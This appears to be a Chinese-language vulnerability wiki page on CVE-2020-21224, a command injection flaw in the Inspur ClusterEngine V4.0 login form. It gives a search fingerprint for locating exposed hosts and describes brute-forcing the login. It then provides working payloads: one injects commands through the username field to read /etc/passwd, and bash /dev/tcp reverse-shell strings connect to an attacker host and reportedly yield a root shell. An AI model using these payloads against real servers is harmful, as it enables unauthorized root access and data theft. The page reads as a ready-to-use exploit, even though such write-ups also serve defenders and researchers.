 # 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

<a-checkbox checked>浪潮ClusterEngineV4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="TSCEV4.0"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010782.png)



由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010591.png)



通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有



一个 ' ，系统将抛出异常。



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010607.png)



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010737.png)



进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010569.png)



定尝试发送 ' ' 来查看响应包。



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010691.png)



我注意到 grep 命令错误，服务端的代码可能是这样



```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```



尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010799.png)



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125011095.png)



尝试读取  `/etc/passswd`



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010886.png)



尝试列目录



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010997.png)



确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125010953.png)



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125011508.png)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F80%200%3E%261`
```



payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125011019.png)



上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313125011101.png)



## 